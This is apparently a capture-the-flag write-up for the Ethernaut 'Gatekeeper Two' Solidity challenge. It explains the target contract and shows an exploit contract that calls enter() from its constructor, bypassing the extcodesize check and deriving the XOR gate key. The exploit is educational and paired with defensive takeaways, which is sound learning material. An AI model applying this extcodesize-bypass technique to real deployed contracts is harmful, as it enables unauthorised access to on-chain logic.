 # Writeup for Gatekeeper Two

Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

This gatekeeper introduces new challenges. Your task is to register as an entrant to pass this level.

### Contract Explanation

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

<details>
<summary>Click to view the source contract and contract explanation</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

The contract has a state variable named `entrant`, which is of type `address`.

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

The above modifier, `gateOne()`, checks whether `tx.origin` is equal to `msg.sender`.

```solidity
modifier gateTwo() {
    uint256 x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}
```

The `gateTwo()` modifier checks whether the caller is a contract or not. It uses the `extcodesize()` opcode to determine the size of the contract. If the caller is an externally owned account (EOA), `extcodesize()` will return 0. If the caller is a contract address, `extcodesize()` will return the size of the deployed contract's bytecode.

```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

The `gateThree()` modifier takes a `bytes8` argument and performs some XOR operations and checks.

```solidity
function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
}
```

The `enter()` function takes a `bytes8` argument and executes all three modifiers. Once all the modifiers are passed, it sets `entrant` to `tx.origin` (our wallet address) and returns `true`.

</details>

### Key Concepts to Understand

`extcodesize()` is an opcode in Solidity that returns the size of a contract. If the caller is an externally owned account (EOA), `extcodesize()` will return 0. If the caller is a contract address, `extcodesize()` will return the size of the deployed contract's bytecode.

However, if we make a call to another contract in the constructor, `extcodesize()` will return zero. This behavior occurs because the contract is only deployed after the constructor call is completed.

<details>
<summary>Click to check the example below.</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Extcodesize{
    uint256 public size;

    modifier Check_contract(){
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        size=x;
        _;
    }


    function view_size()public Check_contract returns(uint256) {
        return size;
    }
}


contract Call_ExtCodesize{
    uint256 public size;
    Extcodesize extcode;
    constructor(address _addr){
        extcode=Extcodesize(_addr);
        size=extcode.view_size();
    }

    function call_view_size()public{
        size=extcode.view_size();
    }

    function view_size()public view returns(uint256) {
        return size;
    }
}
```

Deploy the `Extcodesize` contract first, then deploy the `Call_ExtCodesize` contract. When we deploy the `Call_ExtCodesize` contract in the constructor, it calls the `view_size()` function in the `Extcodesize` contract. The function executes the `Check_contract()` modifier and assigns the return value of `extcodesize()` to `size`. Since the call is made from the constructor, it will return zero.

Then call the `call_view_size()` function in the `Call_ExtCodesize` contract. The function makes a call to the `view_size()` function in the `Extcodesize` contract. The `view_size()` function executes the `Check_contract()` modifier and assigns the return value of `extcodesize()` to the `size` variable in the `Extcodesize` contract. Once the modifier execution is complete, `view_size()` will return the size of the `Call_ExtCodesize` contract.

</details>

### Exploit

Our goal is to call the `enter()` function and pass all the gates (modifiers).

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

We can pass `gateOne()` by interacting with the contract using our exploit contract. When we interact with GatekeeperOne using our exploit contract, `msg.sender` will be our exploit contract address, and `tx.origin` will be the address of the externally owned account (EOA) that is calling the exploit contract.

```solidity
modifier gateTwo() {
    uint256 x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}
```

We can pass `gateTwo()` by calling `enter()` from the constructor of our exploit contract. When we call `enter()` from the constructor of our exploit contract, `extcodesize()` will return zero. `caller()` is an opcode in Solidity that returns the `msg.sender`.

```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

We can pass `gateThree()` by passing the correct `gateKey` as an argument during the function call. If we examine the required statement, it performs an XOR operation. When we perform `A^B`, there will be output. Let the output be `C`. So now the equation is `A^B=C`.

XOR has a special property: if `A^B=C`, then `A` can be written as `C^B`, and `B` can be written as `C^A`.

In `gateThree()`, the require statement is `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max`. Then `_gateKey` can be written as `type(uint64).max^uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`.

The XOR value depends on `msg.sender`, which is our contract address. Since we know our contract address, we can calculate the `_gateKey` and pass it to the `enter()` function.

<details>
<summary>Click to view the exploit contract</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {GatekeeperTwo} from "./GatekeeperTwo.sol";

contract ExploitGatekeeperTwo{
    GatekeeperTwo gatekeeperTwo;
    constructor(address _addr){
        gatekeeperTwo=GatekeeperTwo(_addr);
        bytes8 data=bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^  type(uint64).max);
        gatekeeperTwo.enter(data);
        require(gatekeeperTwo.entrant()==msg.sender,"Exploit Failed");
    }
}

```

</details>

Once you deploy this contract, the challenge will be solved.

### Key Takeaways

Be careful when using `extcodesize()` because it will return zero if the function call is made from the `constructor()`.

If our logic depends on `caller()/msg.sender`, we can use `require(tx.origin==msg.sender)`. This ensures that only externally owned accounts are calling the functions.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>

